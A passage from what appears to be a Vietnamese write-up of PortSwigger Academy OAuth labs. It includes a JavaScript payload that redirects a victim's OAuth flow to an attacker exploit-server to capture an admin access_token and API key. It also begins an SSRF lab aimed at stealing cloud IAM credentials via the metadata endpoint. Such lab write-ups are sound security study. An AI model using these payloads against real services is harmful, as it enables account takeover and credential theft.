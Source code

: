 >Như vậy, ta có thể chỉnh `redirect_uri` thành như sau với path là exploit-server: 
>![image](https://hackmd.io/_uploads/BkmNNDhIC.png)

>Sau đó, Oauth server sẽ truy cập đến exploit-server nhằm để trả về `access_token`
>Bây giờ chỉ việc tạo payload. Đoạn script có chức năng khiến nạn nhân load authorization request =>`access_token` được trả về exploit-server qua query string (vì URL fragment không xem được trong log). Payload:
```
script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
![image](https://hackmd.io/_uploads/Hy0mHPh80.png)

>**"Deliver exploit to victim"** và xem lại log, ta lấy được `access_token` của admin: ![image](https://hackmd.io/_uploads/S1_6dv3LA.png)

>Có được `access_token`, ta sẽ tiếp tục gửi request tới `/me` để lấy data của người dùng:
>![image](https://hackmd.io/_uploads/HJGDKw3U0.png)

>Thành công lấy được API Key của admin, submit và hoàn thành bài lab: 
>![image](https://hackmd.io/_uploads/HyeKKw3IC.png)

# **5. SSRF via OpenID dynamic client registration**
>This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.
To solve the lab, craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.
You can log in to your own account using the following credentials: `wiener:peter`
>![image](https://hackmd.io/_uploads/SJRpIBAL0.png)

>Tiếp tục là 1 bài đăng nhập với tài khoản mạng xã hội, đăng nhập tuần tự theo các bước. Bài lab này để lộ đường dẫn tại `/.well_known/openid-configuration` khiến mọi người đều có thể xem được cấu hình của open-id: 
>![image](https://hackmd.io/_uploads/BkT1cHA8R.png)

>Tồn tại 1 endpoint `registration_endpoint` dùng để đăng kí:
>![image](https://hackmd.io/_uploads/rkUMqrA80.png)

>Ta sẽ tạo lại 1 request tới endpoint này với payload ví dụ: 
```
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```
